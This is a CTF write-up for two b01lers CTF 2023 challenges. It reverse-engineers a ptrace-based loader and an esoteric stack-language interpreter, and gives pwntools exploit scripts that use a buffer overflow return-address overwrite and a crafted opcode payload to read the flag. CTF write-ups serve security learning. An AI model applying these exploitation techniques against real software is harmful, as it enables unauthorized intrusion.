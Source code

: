 ```yaml
---
title: (CTF) 2023 b01lers CTF writeup
categories: [CTF]
tags : [writeup]
date : 2023-03-20 08:59:38 +0900
author:
    name: 
    link: 
toc: true
comments: false
mermaid: false
math: false
---
```


Date: March 20, 2023
rank: 19
team: ST4RT

# chifufuuufuuuuu ( 398 pt, 13 solve )

there are two files loader.pyc, a binary

```
while 1:
    # res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    pid, status = os.waitpid(-1, 0)
    ssy = pnx(status)
    print(ssy)
    res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    print(hex(regs.rip))
    if ssy[1] == 'WIFEXITED':
        break
    if ssy[2] == 'SIGSEGV':
        break
    if ssy[2] == 'SIGTRAP':

> ['0x57f', 'WIFSTOPPED', "'SIGTRAP'", '0']

```

if I execute python code from uncompyle6, it doesn’t work due to the quote.
Enclose comparing string with double quotes

```
int 3
adc [rax+XX]

```

In binary, there are some opcodes that cause SEGFAULT next to int 3.
int 3 → `SIGTRAP`

```
if ssy[2] == 'SIGTRAP':
    res = ptrace(PTRACE_GETREGS, pid, 0, ctypes.addressof(regs))
    one_byte = mem_read(pid, regs.rip, 1)[0]
    if one_byte == 72:
        regs.rax = regs.rdi
        regs.rdi = regs.rsi
        ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
    else:
        if one_byte == 17 or one_byte == 33 or one_byte == 49:
            offd = {17:0,  33:40,  49:72}
            vv = mem_read(pid, regs.rsp + offd[one_byte], 8)
            vv = struct.unpack('<Q', vv)[0]
            saved_addr.add(vv)
            regs.rip += 1
            ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
        else:
            if one_byte == 18 or one_byte == 34 or one_byte == 50:
                offd = {18:0,  34:40,  50:72}
                vv = mem_read(pid, regs.rsp + offd[one_byte], 8)
                vv = struct.unpack('<Q', vv)[0]
                if vv not in saved_addr:
                    print('\\n\\n!!!Stack Violation Detected!!!\\n\\n')
                    regs.rip = 0
                    ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
                    break
                saved_addr.remove(vv)
                regs.rip += 1
                ptrace(PTRACE_SETREGS, pid, 0, ctypes.addressof(regs))
    res = ptrace(PTRACE_CONT, pid, 0, 0)

```

In the loader, it handles `SIGTRAP`.
it branches according to the 1byte next to `int 3` opcode

```
0x48 -> rax = rdi, rdi = rsi
0x11,0x21,0x31 -> saved_addr.add([rsp+XX]), rip+=1
0x12,0x22,0x32 -> saved_addr.remove([rsp+XX]), if not exist, exit. rip+=1,

```

control flow check

## binary routine

```
read(0,0x601004,0x10)
open("/dev/urandom") -> /dev/urandom string -> 0x601084
[0x601000]+=1
read(fd,0x601000+[0x601000]<<4+4],0x10) -> 0x601014
write(1,random values,0x10)
write xored data with urandom value
read(0,[rsp+0x20],0x10)
read(0,[rsp+0x10],...) -> input until 0xA
write xored data [rsp+0x20], [rsp+0x10]

```

in function `0x400486`, BOF occurs. there is int 3 + 0x32 at the end of the function.
loader check if `[rsp+0x48]` in saved_addr.

There are two addresses at this time. original return `0x400546` and `0x4005e2`.

In `0x4005e2`, it executes that routing again if eax ≠ 0.
the return value of write always 1.
repeating that routine, you can raise the address until `0x601084` ( /dev/urandom ) by increasing the input index (`0x601000`)
modifying this filename to flag.txt, it reads flag as random values and prints.

```python
from pwn import *

# r = process(["/usr/bin/python3","/root/loader.py"])
r = remote("ctf.b01lers.com", 5215)
for i in range(9):
    print(i)
    r.sendafter('?:\n',b'flag.txt'.ljust(16,b'\x00'))
    r.sendafter(':\n',b'\x00'*16)
    r.sendline(b'\x00'*0x38+p64(0x4005e2))
r.interactive()

```

by repeating 8 times, the string address 0x601084 (/dev/urandom) can be overwritten,
in the 9th routine, it prints flag as random values 

# baby noah ( 334 pt, 25 solve )

## binary routine

1. input map ( max : 8 * 24 )
2. execute opcode

```python
opcode = map[row * m_col + col]
col + flag1 (default 0)
row += flag2 (default 0)
miles += op+1

# / dup / stack[idx] = stack[idx-1], idx ++
! / test / stack[idx-1] = stack[idx-1] == 0
* / mul / stack[idx-2] *= stack[idx-1], idx-=1
+ / add / stack[idx-2] += stack[idx-1], idx-=1
- / sub / stack[idx-2] -= stack[idx-1], idx-=1, 
/ / div / stack[idx-2] /= stack[idx-1], idx-=1
% / mod / stack[idx-2] %= stack[idx-1], idx-=1
& / and / ...
, / swap / stack[idx-2] = stack[idx-1]; stack[idx-1] = stack[idx-2]
~ / pop / idx-=1
. / putc / putc(stack[idx-1])
: / printf / printf("%d",stack[idx-1])
< / left / flag1 = -1
> / right / flag1 = 1
@ / return 1
^ / up / flag2 = -1
v / down / flag2 = 1
_ / left_right / flag1 = stack[idx-1]==0 ? 1 : -1;
| / up_down / flag2 = stack[idx-1] == 0 ? 1 : -1;
g / load / stack[idx-2] = map[m_col * stack[idx-1] + stack[idx-2]]; idx-=1
p / store / map[m_col * stack[idx-2] + stack[idx-3]] = stack[idx-1]; idx-=3
default / stack[idx] = 0; idx++
```

in every execute, add opcode+1 to `miles.`

using that opcodes, make `miles` 0x31337 to print flag.

input size is 8 * 24, so i need to construct a loop.

first, push counter to stack

> stack : [ 0x00, X ], idx = 2
> 
1. `right` to set flag1 = 1
2. `default` (counter → map[0][1])
3. `default` (dummy to idx++)
4. `default` (dummy, in load row = 0)
5. `test` to set stack[idx-1] = 1
6. `load` X

> payload : >XX!Xg
> 

second, using two rows, construct a loop

1. `right` to start loop
2. `default` to idx++
3. `test` to set stack[2] = 1
4. `sub` stack[1]
5. `default & pop` ( dummy op to increase miles )
6. `down`
7. `left_right` to check counter (stack[1]) == 0
if counter==0, goto right to exit
else, goto left to execute remain loop count

> >X!-X~v
^<<<<<_@
> 

Adjust the value X  to make the miles to 0x31337.

```python
from pwn import *

#r=process(["./babynoah","20","flag.txt"])
r=remote("babynoah.bctf23-codelab.kctf.cloud", 1337)

payload = b">\xe4\xe4!\xffg>\xfe!-\x00~v\n"
payload +=b"\xff\xff\xff\xff\xff\xff^<<<<<<_@"
r.sendline(payload)
pause()
r.sendline()
r.interactive()
```

by default, X to 0xff and adjusted the rest appropriately